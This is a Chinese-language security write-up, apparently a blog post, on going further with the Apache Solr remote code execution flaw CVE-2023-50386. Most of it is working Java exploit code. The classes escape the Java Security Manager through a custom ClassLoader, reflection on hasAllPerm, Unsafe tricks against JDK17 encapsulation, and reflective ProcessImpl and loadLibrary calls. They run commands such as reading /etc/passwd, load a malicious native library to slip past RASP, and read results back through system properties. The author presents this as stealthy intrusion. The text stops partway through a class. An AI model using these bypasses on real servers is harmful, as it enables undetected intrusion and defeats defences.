








# Apache Solr 远程代码执行漏洞（CVE-2023-50386）深入利用与验证

> 在 https://xz.aliyun.com/t/13637 中，漏洞作者已经详细介绍了漏洞的原理、分析及复现过程，这里就不再 CV 搬运。在漏洞作者的文章中，仅提供了简单的代码执行（创建文件），在本文中，我们实现了任意代码执行和回显，并且代码可以实现大多数 RASP 的绕过，也不会产生网络连接，某种意义上可以完成无感入侵。本文涉及代码均在 vvmdx 仓库。

目录：

Java Security Manager 绕过

-   ProcessBuilder 测试
    
-   自定义 ClassLoader 绕过
    
-   反射利用 getProtectionDomain0 绕过
    
-   Unsafe 绕过 JDK17 的限制
    
-   反射利用 ProcessImpl 绕过
    

JNI 绕过 RASP

-   一次失败的尝试
    
-   一次成功的尝试
    

命令执行回显

后记

## Java Security Manager 绕过

Solr 使用了 Java Security Manager，因此执行代码会受到沙箱限制

### ProcessBuilder 测试

我们写一个简单的命令执行

```plain
package zk_backup_0.configs.conf1;

import java.io.*;

public class Exp {
    static {
        try {
            String command = "head -n 5 /etc/passwd";
            ProcessBuilder builder = new ProcessBuilder(command.split("\\s+"));
            Process process = builder.start();
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line = reader.readLine();
            String res = "";
            while (line != null) {
                res = res + line + "\n";
                line = reader.readLine();
            }
            reader.close();
            System.out.println(res);
            new File("/tmp/success").createNewFile();
            FileOutputStream stream = new FileOutputStream("/tmp/success");
            stream.write(res.getBytes());
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

编译后按照漏洞复现的步骤令其被加载，可以发现命令并没有被执行成功，我们查看控制台日志 `/var/solr/logs/solr-8983-console.log`

> 注意 `/var/solr/logs/`下面放的日志有 solr 的运行日志，请求日志，控制台日志等，我们这里编写的恶意类触发的是 java 沙箱的限制，不在 solr 运行日志中，因此需要查看控制台日志

```plain
java
.
security
.
AccessControlException
:
 access denied
(
"java.io.FilePermission"

"<<ALL FILES>>"

"execute"
)
    at java
.
base
/
java
.
security
.
AccessControlContext
.
checkPermission
(
Unknown

Source
)
    at java
.
base
/
java
.
security
.
AccessController
.
checkPermission
(
Unknown

Source
)
    at java
.
base
/
java
.
lang
.
SecurityManager
.
checkPermission
(
Unknown

Source
)
    at java
.
base
/
java
.
lang
.
SecurityManager
.
checkExec
(
Unknown

Source
)
    at java
.
base
/
java
.
lang
.
ProcessBuilder
.
start
(
Unknown

Source
)
    at java
.
base
/
java
.
lang
.
ProcessBuilder
.
start
(
Unknown

Source
)
    at zk_backup_0
.
configs
.
conf1
.
Exp
.<
clinit
>(
Exp
.
java
:
10
)

...
```

在控制台日志的异常信息中，可以看到缺少了 `execute`的权限，而在堆栈中可以看到正是 `zk_backup_0.configs.conf1.Exp`中的 `ProcessBuilder.start()`方法触发的，因此我们不可以直接使用其执行命令

我们进入容器看一下 java 启动参数

```plain
ps aux
|
grep java
# solr         585  1.6 10.4 10480400 843664 pts/0 Sl   Feb21   5:15 /opt/java/openjdk/bin/java -server -Xms512m -Xmx512m -XX:+UseG1GC -XX:+PerfDisableSharedMem -XX:+ParallelRefProcEnabled -XX:MaxGCPauseMillis=250 -XX:+UseLargePages -XX:+AlwaysPreTouch -XX:+ExplicitGCInvokesConcurrent -Xlog:gc*:file=/var/solr/logs/solr_gc.log:time,uptime:filecount=9,filesize=20M -Dsolr.jetty.inetaccess.includes= -Dsolr.jetty.inetaccess.excludes= -DzkClientTimeout=30000 -DzkRun -Dsolr.log.dir=/var/solr/logs -Djetty.port=8983 -DSTOP.PORT=7983 -DSTOP.KEY=solrrocks -Duser.timezone=UTC -XX:-OmitStackTraceInFastThrow -XX:OnOutOfMemoryError=/opt/solr/bin/oom_solr.sh 8983 /var/solr/logs -Djetty.home=/opt/solr/server -Dsolr.solr.home=/var/solr/data -Dsolr.data.home= -Dsolr.install.dir=/opt/solr -Dsolr.default.confdir=/opt/solr/server/solr/configsets/_default/conf -Dlog4j.configurationFile=/var/solr/log4j2.xml -Dsolr.jetty.host=0.0.0.0 -Xss256k -Djava.security.manager -Djava.security.policy=/opt/solr/server/etc/security.policy -Djava.security.properties=/opt/solr/server/etc/security.properties -Dsolr.internal.network.permission=* -DdisableAdminUI=false -Dsolr.log.muteconsole -jar start.jar --module=http --module=requestlog --module=gzip
```

可以看到用于设置 Java Security Manager 的参数 `-Djava.security.manager-Djava.security.policy=/opt/solr/server/etc/security.policy-Djava.security.properties=/opt/solr/server/etc/security.properties`

可知配置文件在 `/opt/solr/server/etc/security.policy`，我们可以分析下有什么绕过的方法

> 如果下载了源码的话，也可以直接在 `solr-releases-solr-9.0.0\solr\server\etc`中找到 `security.policy`，绕过 java 沙箱可以参考这篇文章：https://www.mi1k7ea.com/2020/05/03/浅析 Java 沙箱逃逸/

### 自定义 ClassLoader 绕过

一通研究后发现里面有这个权限： `permission java.lang.RuntimePermission"createClassLoader";`

也就是我们可以自定义一个 ClassLoader 来进行绕过

原理具体看上面提到的文章，这里直接给一个可以在 solr 下利用的 demo

命令执行类

```plain
package zk_backup_0.configs.conf1;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.security.AccessController;
import java.security.PrivilegedAction;

public class ExpBypassExec {

    public ExpBypassExec() {}

    static {
        AccessController.doPrivileged(new PrivilegedAction() {
            public Object run() {
                try {
                    String command = "head -n 5 /etc/passwd";
                    ProcessBuilder builder = new ProcessBuilder(command.split("\\s+"));
                    Process process = builder.start();
                    BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                    String line = reader.readLine();
                    String res = "";
                    while (line != null) {
                        res = res + line + "\n";
                        line = reader.readLine();
                    }
                    reader.close();
                    System.out.println(res);
                    new File("/tmp/success").createNewFile();
                    FileOutputStream stream = new FileOutputStream("/tmp/success");
                    stream.write(res.getBytes());
                    return null;
                } catch (Exception e) {
                    e.printStackTrace();
                    return null;
                }
            }
        });
    }
}
```

自定义 ClassLoader

```plain
package zk_backup_0.configs.conf1;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.net.URL;
import java.nio.ByteBuffer;
import java.nio.channels.Channels;
import java.nio.channels.FileChannel;
import java.nio.channels.WritableByteChannel;
import java.security.*;
import java.security.cert.Certificate;
import java.util.Arrays;

public class ExpBypassLoader extends ClassLoader {
    public ExpBypassLoader() {}

    public ExpBypassLoader(ClassLoader loader) {
        super(loader);
    }

    @Override
    public Class<?> loadClass(String name) throws ClassNotFoundException {
        if (name.contains("ExpBypassExec")) {
            return findClass(name);
        }
        return super.loadClass(name);
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
        File file = getClassFile(name);
        try {
            byte[] bytes = getClassBytes(file);
            Class<?> c = defineClazz(name, bytes, 0, bytes.length);
            return c;
        } catch (Exception e) {
            e.printStackTrace();
        }

        return super.findClass(name);
    }

    protected final Class<?> defineClazz(String name, byte[] b, int off, int len) throws ClassFormatError {
        try {
            PermissionCollection pc = new Permissions();
            pc.add(new AllPermission());

            ProtectionDomain pd = new ProtectionDomain(new CodeSource((URL) null, (Certificate[]) null),
                    pc, this, null);

            return this.defineClass(name, b, off, len, pd);
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }

    private File getClassFile(String name) {
        // 注意这里的classpath不是默认的，因此需要手动指定我们上传class的目录和文件
        String path = name.replace(".", "/");
        File file = new File("/var/solr/data/collection2_shard1_replica_n1/lib/collection1/" + path + ".class");
        return file;
    }

    private byte[] getClassBytes(File file) throws Exception {
        FileInputStream fis = new FileInputStream(file);
        FileChannel fc = fis.getChannel();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        WritableByteChannel wbc = Channels.newChannel(baos);
        ByteBuffer by = ByteBuffer.allocate(1024);

        while (true) {
            int i = fc.read(by);
            if (i == 0 || i == -1) {
                break;
            }

            by.flip();
            wbc.write(by);
            by.clear();
        }
        fis.close();
        return baos.toByteArray();
    }
}
```

入口函数

```plain
package zk_backup_0.configs.conf1;

public class ExpBypassMain {
    static {
        ExpBypassLoader loader = new ExpBypassLoader();

        try {
            // 注意需要使用全限定类名，不然自定义的classloader是加载不到的
            Class<?> clz = Class.forName("zk_backup_0.configs.conf1.ExpBypassExec", true, loader);
            Object object = clz.newInstance();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }

    }
}
```

将以上三个类编译后生成的类文件全部放入 `conf1`，注意有 4 个类文件

> 前面我们提到由于 solr docker 的 jdk 是 17.10，为了防止版本差异导致运行出错，我们也使用 jdk17 编译，然而这个绕过姿势中的 AccessController 类在 jdk17 中废弃了，不过亲测 jdk8 编译也是可以的

```plain
conf1
├──

ExpBypassExec$1
.
class
├──

ExpBypassExec
.
class
├──

ExpBypassLoader
.
class
├──

ExpBypassMain
.
class
├──
 lang
├──
 managed
-
schema
.
xml
├──
 protwords
.
txt
├──
 solrconfig
.
xml
├──
 stopwords
.
txt
└──
 synonyms
.
txt
```

接着将 `conf2`的 `solrconfig.xml`中加载的类修改为 `zk_backup_0.configs.conf1.ExpBypassMain`

最后的流程就和漏洞复现一样了，最终我们可以在 `tmp/success`下看到我们命令执行并写入的文件



在测试过程中（如果不调试的话），遇到的问题可以查看日志解决，主要是 solr 运行日志 `/var/solr/logs/solr.log`，在加载恶意类时可以在这个日志查看详细的异常堆栈；还有 solr 控制台日志 `/var/solr/logs/solr-8983-console.log`，可以自己在代码中抛一些异常或者打印一些变量

### 反射利用 getProtectionDomain0 绕过

这里还有另一个更简单的绕过方式，我们注意到这里有这样两个权限：

```plain
  permission java
.
lang
.
reflect
.
ReflectPermission

"suppressAccessChecks"
;
  permission java
.
lang
.
RuntimePermission

"accessDeclaredMembers"
;
```

即反射权限和访问私有成员的权限，也就是说可能有很多种反射的姿势可以利用

这里我们需要通过反射修改 Java Security Manager 检查的 `ProtectionDomain`，其权限原本写在 `security.policy`中，没有写代表没有权限，但是我们可以通过反射去修改其属性，让其拥有权限

具体原理参考博客，这里直接给实现

在 `java.security.ProtectionDomain`中，有这么一个变量： `java.security.ProtectionDomain#hasAllPerm`



其用于标记该类是否拥有所有权限，我们现在的任务就是通过反射将其修改为 true，其实现方式若如下：

```plain
// 1. 获取类
Class
 clz
=

Class
.
forname
(
"xxx"
);
// 2. 获取其 ProtectionDomain
// 3. 通过反射获取 ProtectionDoamin 的 hasAllPerm 字段
Field
 field
=
 clz
.
getProtectionDomain
().
getClass
().
getDeclaredField
(
"hasAllPerm"
);
// 4. 设置其可修改
field
.
setAccessible
(
true
);
// 5. 将 hasAllPerm 设置为 true
field
.
set
(
clz
.
getProtectionDomain
(),

true
);
```

会发现提示没有 `getProtectionDomain`的权限，这是因为在 `java.lang.Class#getProtectionDomain`中，会调用 SecurityManager 对其进行权限检查



我们简单分析后可以发现，在权限检查后，还调用了 `protectionDomain`和 `getProtectionDomain0`，因此我们通过反射，在权限检查后调用这两个方法任意一个即可，作者博客的 demo 如下：

```plain
public

static

void
 main
(
String
[]
 args
)

throws

Exception

{

StackTraceElement
[]
 stackTraceElements
=

Thread
.
currentThread
().
getStackTrace
();

// 遍历栈帧

for

(
StackTraceElement
 stackTraceElement
:
 stackTraceElements
)

{

try

{

Class
 clz
=

Class
.
forName
(
stackTraceElement
.
getClassName
());

// 利用反射调用 getProtectionDomain0 方法

Method
 getProtectionDomain
=
 clz
.
getClass
().
getDeclaredMethod
(
"getProtectionDomain0"
,

null
);
            getProtectionDomain
.
setAccessible
(
true
);

// 获取 ProtectionDomain

ProtectionDomain
 pd
=

(
ProtectionDomain
)
 getProtectionDomain
.
invoke
(
clz
);

// 反射设置 hasAllPerm 为 true

if

(
pd
!=

null
)

{

Field
 field
=
 pd
.
getClass
().
getDeclaredField
(
"hasAllPerm"
);
                field
.
setAccessible
(
true
);
                field
.
set
(
pd
,

true
);

}

}

catch

(
Exception
 e
)

{
            e
.
printStackTrace
();

}

}

Runtime
.
getRuntime
().
exec
(
"calc"
);
}
```

作者这么运行，确实弹出了计算器，但是这就结束了吗？：）

### Unsafe 绕过 JDK17 的限制

还记得我们的运行环境吗：jdk17，在 jdk17 下，这么做会出现这个异常：

```plain
java
.
lang
.
reflect
.
InaccessibleObjectException
:

Unable
 to make
private

native
 java
.
security
.
ProtectionDomain
 java
.
lang
.
Class
.
getProtectionDomain0
()
 accessible
:

module
 java
.
base
 does
not

"opens java.lang"
 to unnamed
module

@
2957fcb0
```

抛异常的位置在 `xxx.setAccessible(true);`处，这是因为从 jdk17 开始，不再允许通过反射访问 `java.*`中的非公开变量和方法了

> 具体的改动在 jep 403：https://openjdk.org/jeps/403
> 
>   
> 
> 1.  ## Summary
>     
> 2.  Strongly encapsulate all internal elements of the JDK, except for critical
>     
> 3.  internal APIs such as `sun.misc.Unsafe`. It will no longer be possible to
>     
> 4.  relax the strong encapsulation of internal elements via a single command-
>     
> 5.  line option, as was possible in JDK 9 through JDK 16.
>     
> 
> 在 jdk9~16 中会抛警告，从 jdk17 开始直接抛异常  
> 
> 第一点说的是对 jdk 代码的强封装，第二点说的是 Unsafe 还可以用

这要怎么绕过呢？

> 参考：https://pankas.top/2023/12/05/jdk17-反射限制绕过/
> 
> 在这篇博客中，提到了通过 Unsafe 来实现，Unsafe 的知识参考 https://tech.meituan.com/2019/02/14/talk-about-java-magic-class-unsafe.html，其提供了直接操作 java 内存和类的方式，这里就是利用了 Unsafe 还可以用这一点来绕过

原文博客的分析讲的很详细了，这里直接给实现：

```plain
package zk_backup_0.configs.conf1;

import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.security.ProtectionDomain;

public class ExpBypass4 {

    public static void main(String[] args) throws Exception {
        StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();
        //遍历栈帧
        for (StackTraceElement stackTraceElement : stackTraceElements) {
            try {
                // 获取Unsafe
                Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
                unsafeField.setAccessible(true);
                Unsafe unsafe = (Unsafe) unsafeField.get(null);
                // 获取Object的Module
                Module module = Object.class.getModule();
                Class<?> currentClass = ExpBypass4.class;
                // 通过Unsafe设置类的module为Object类的module（绕过jdk限制的关键），使其能够被访问（并修改）
                long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
                unsafe.getAndSetObject(currentClass, addr, module);
                // 获取类
                Class clz = Class.forName(stackTraceElement.getClassName());
                // 利用反射调用getProtectionDomain0方法获取ProtectionDomain
                Method getProtectionDomain = clz.getClass().getDeclaredMethod("getProtectionDomain0", null);
                getProtectionDomain.setAccessible(true);
                ProtectionDomain pd = (ProtectionDomain) getProtectionDomain.invoke(clz);
                // 将ProtectionDomain的hasAllPerm修改为true，使其拥有所有权限
                if (pd != null) {
                    Field field = pd.getClass().getDeclaredField("hasAllPerm");
                    field.setAccessible(true);
                    field.set(pd, true);
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        Runtime.getRuntime().exec("calc");
    }
}
```

看看效果：



到此，我们就实现了单文件绕过 JDK17、Java Security Manager 的限制实现任意代码执行

> 既然我们已经可以反射访问 `java.*`了，这里也可以直接反射调用 `java.lang.ProcessImpl#start`来绕过 Java Security Manager 的检查，而不用去赋予栈帧权限，代码如下：

```plain
public class ExpTest {

    static {
        try {

            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpTest.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

            String[] cmd = {"head", "-n", "5", "/etc/passwd"};
            Class clz = Class.forName("java.lang.ProcessImpl");
            Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
            method.setAccessible(true);
            Process process = (Process) method.invoke(clz, cmd, null, null, null, false);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

##   

## JNI 绕过 RASP

> 对于这个漏洞，是非常典型的“无特征”型的通用漏洞（此处是我自己下的定义：）），这是什么意思呢，即这个漏洞所有请求都是正常的业务行为，在 waf 层是无法防御的；
> 
> 在应用层上，就只能靠 rasp 去防御了，而对于此漏洞的调用链，也是没有明显通用特征的，由于漏洞利用的是 `create`/ `backup`/ `upload`这些业务常用的接口，所以 hook 这些方法可能对性能影响很大，就只能依赖于捕获攻击者后利用的调用方法了，例如 `Runtime.getRuntime().exec("calc");`之类的
> 
> 因此如果能实现命令执行绕过 rasp，也就基本实现了无感入侵

前置知识：JNI 实现 RCE：https://javasec.org/javase/JNI/

### 一次失败的尝试

> 在上文的基础上，我们赋予了所有栈帧全部权限，所以其实直接使用 `System.load()`去加载动态链接库就可以了；不过一开始我想通过一个另外的方法来实现

直接执行 `System.load()`的话，会受到 Java Security Manager 的限制，我们首先查看 `security.policy`，可以看到关于 `loadLibrary`的权限有如下几个：

```plain
permission java
.
lang
.
RuntimePermission

"loadLibrary.jaas"
;
permission java
.
lang
.
RuntimePermission

"loadLibrary.jaas_unix"
;
permission java
.
lang
.
RuntimePermission

"loadLibrary.jaas_nt"
;
```

也就是我们能且只能执行以下代码：

```plain
System
.
loadLibrary
(
"jaas"
);
System
.
loadLibrary
(
"jaas_unix"
);
System
.
loadLibrary
(
"jaas_nt"
);
```

在我的知识范围内（超纲的知识请大佬们教我 orz），思索了几种利用方式，若大佬们有更好的利用姿势求教！！大概有以下几个：

1\. 写白名单的动态链接库（失败）

在一通查找后，发现只有 `libjaas.so`是默认存在的，所以我们可以在动态链接库目录下写入名为 `libjaas_unix.so`或 `libjaas_nt.so`的恶意动态链接库，然后在代码里面直接通过 `System.loadLibrary("jaas_unix");`加载并执行命令

个人测试未成功原因：

`System.loadLibrary()`会在 `java.library.path`和 `sun.boot.library.path`里查找动态链接库，而这两者分别为

```plain
# java.library.path
/
usr
/
java
/
packages
/
lib
:
/usr/
lib64
:
/lib64:/
lib
:
/usr/
lib
# sun.boot.library.path
/
opt
/
java
/
openjdk
/
lib
```

在分析 `security.policy`中所有具有写权限（ `permission java.io.FilePermission"${xxx}","write";`）的目录后，发现是没有可以利用的，所以直接写入默认动态链接库目录的方式失败了

  

2\. 手动设置动态链接库目录（失败）

java 中可以通过 `System.setProperty("java.library.path",path)`的方式设置动态链接库目录，然而动态链接库只在 jvm 启动时会初始化，在 jvm 启动后就无法再动态改变

我们在 setter 后，再执行 getter 获取到的环境变量虽然是我们设置的 path，但实际上在 loadLibrary 时是不会生效的

有什么方法可以动态修改呢？是有的

> 参考：https://fahdshariff.blogspot.com/2011/08/changing-java-library-path-at-runtime.html

具体分析看参考博客，简单说就是在 `java.lang.ClassLoader#loadLibrary`中，有这么一段代码：

```plain

if

(
sys_paths
==

null
)

{
       usr_paths
=
 initializePath
(
"java.library.path"
);
       sys_paths
=
 initializePath
(
"sun.boot.library.path"
);

}
```

`initializePath("java.library.path");`的作用就是初始化动态链接库目录

我们只需要通过反射将 `sys_paths`设置为空，就可以在执行 `loadLibrary`时触发其重新初始化，加载到我们设置的 path

但这只是低版本 jdk 的实现方式：）

在高版本 jdk 的 `java.lang.ClassLoader#loadLibrary(java.lang.Class<?>, java.lang.String)`中修改了逻辑和实现，我还没找到可以触发其重新加载动态链接库的方法：），所以最终测试也失败了（这也是坑了我最久的地方，一直在思考怎么触发其重新加载）

`   `

### 一次成功的尝试

> 在受到反射调用 `ProcessImpl`思路的启发后，我看了下 `System.loadLibrary()`的调用关系，果不其然发现了一个类似的方式

我们看下这个调用堆栈：

```plain
# 自底而上
System
.
loadLibrary
(
"jaas"
);
java
.
lang
.
System
#loadLibrary
java
.
lang
.
Runtime
#loadLibrary0
java
.
lang
.
ClassLoader
#loadLibrary(java.lang.Class<?>, java.lang.String)
jdk
.
internal
.
loader
.
NativeLibraries
#loadLibrary(java.lang.Class<?>, java.lang.String)
```

在其中发现，只有 `java.lang.Runtime#loadLibrary0`会进行 `SecurityManager`检查



这就好办了，直接反射调用后面的方法就行

最终实现代码：

```plain
package zk_backup_0.configs.conf1;

import sun.misc.Unsafe;

import java.io.File;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class ExpBypass7 {

    public static void main(String[] args) throws IOException {

        try {
            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpBypass7.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

            // 反射调用java.lang.ClassLoader#loadLibrary(java.lang.Class<?>, java.lang.String)加载恶意动态链接库
            Class<?> clz = ClassLoader.class;
            Method method = clz.getDeclaredMethod("loadLibrary", Class.class, File.class);
            method.setAccessible(true);
            File file = new File("D:\\xxx\\zk_backup_0\\configs\\conf1\\cmd.dll");
            method.invoke(null, currentClass, file);

        } catch (Exception e) {
            e.printStackTrace();
        }

        CommandExec commandExec = new CommandExec();
        String cmd = commandExec.exec("calc");
    }
}
```

具体漏洞利用时将 `libxxx.so`、类文件、Exp 一起打包上传即可

## 命令执行回显

到上面为止，我们实现了远程任意代码执行，但是执行后并不会产生回显，所以我在寻找一种可以获得执行结果的方式：

1.  比较通用的获得回显的方式无非就 web/ftp/dns 等带外到 vps 上，但我总觉得这种产生“网络外连”的方式很容易被抓到，所以不太想使用（我们连 rasp 都绕了，最后倒在网络外连上就太亏了）
    
2.  寻找一个通过 web 直接访问的页面，或者 api 可以获取的文件，进行写操作
    

很快我就决定用第二种方式了，因为我们知道我们上传的 `Exp.class`在 `http://192.168.232.128:8983/solr/#/~cloud?view=tree`处，所以我就在思考：能不能将命令执行结果写到这些配置里面，然后直接访问去读

但是一通分析后我放弃了，因为他这些东西不是直接转储到本地目录的，而是通过 zookeeper 进行存储；zookeeper 存储文件的方式不太寻常（没深入研究...他会把文件用几个十六进制存储于 `/var/solr/data/zoo_data/version-2`下），目录可写，但写完无法通过 http 请求直接读，因为他会通过 zk 的 api 解析后返回，意味着若不是通过 zk 的 api 存储的话，就无法解析并读出

这可怎么办呢，在漫无目的的乱点页面的时候，我突然发现了一个地方怪怪的：



还记得我在 JNI 绕 RASP 中提到的，我的一个失败的测试想法吗？



我这里通过 setter 操作设置了动态链接库目录，虽然无法生效，**但 getter 确实是会获得我设置的目录的**

所以我在发现 `JavaProperties`选项卡中这一信息后，立刻想到了：

1.  我的 setter 操作成功设置了一个字符串作为目录
    
2.  选项卡返回的信息等同于执行了一个 getter 操作
    
3.  目录可控，返回信息可读，这不就达成了我们的回显的所有条件了吗？
    

废话不多说，直接上代码实现：

```plain
package zk_backup_0.configs.conf1;

import sun.misc.Unsafe;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Map;


public class ExpTest {

    static {
        try {

